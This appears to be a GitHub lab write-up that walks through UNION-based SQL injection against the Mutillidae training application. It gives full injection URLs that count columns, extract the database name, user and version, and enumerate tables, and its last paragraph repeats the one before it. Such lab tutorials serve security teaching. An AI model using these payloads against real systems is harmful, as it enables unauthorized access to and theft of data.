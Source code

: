 The browser url of this info page need to be modified with the url as below:
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/dcd25083-c066-4384-9e3e-4bf430bd86a6)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/f1eed0ba-7657-443a-8a01-b5b56728fe19)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/93157120-074b-4896-b2ab-729d43668d06)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/6fa36ebf-ffaa-4c31-a912-1fc534379633)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/af6cdac3-0298-4576-af97-f2a9021ac49d)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/907c809e-ebd7-4609-9dbe-fb9335826076)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/3fe3cc71-da07-4627-b4f1-edcda1e46f73)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Priya-Loganathan/sqlinjection/assets/121166075/f60f1d76-af20-4e93-81ca-26a47241b53e)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

